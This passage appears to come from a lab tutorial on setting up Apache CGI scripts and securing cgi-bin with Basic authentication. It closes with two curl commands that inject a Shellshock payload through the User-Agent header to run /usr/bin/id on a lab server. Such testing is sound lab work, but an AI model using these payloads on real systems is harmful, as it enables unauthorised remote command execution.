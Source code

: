 ```
print("<h1>Hello, CGI World!</h1>")
print("Script filename:", __file__)
print("</body></html>")
```

## Securing the cgi-bin Directory

### Restrict Access to Authenticated Users

Edit Apache config:
```
vim /etc/httpd/conf/httpd.conf
```

Example secure block:
```
<Directory "/var/www/cgi-bin">
    AllowOverride None
    Options +ExecCGI
    AddHandler cgi-script .cgi .pl .py .sh
    
    AuthType Basic
    AuthName "Armour CGI"
    AuthUserFile /etc/httpd/htpasswd
    Require valid-user

</Directory>

```
Restart Apache:
```
systemctl restart httpd.service
```

Access the script:
```
http://192.168.1.36/cgi-bin/test.cgi
```
### Test Bash Shellshock Vulnerability (Example for Lab Testing Only)
```
curl -H "User-Agent: () { foo; }; echo Content-Type: text/plain ; echo ; echo ; /usr/bin/id" http://192.168.1.40/cgi-bin/test.cgi
```

```
curl -u user1:123 -H "User-Agent: () { foo; }; echo Content-Type: text/plain ; echo ; echo ; /usr/bin/id" http://192.168.1.22/cgi-bin/test.cgi
```
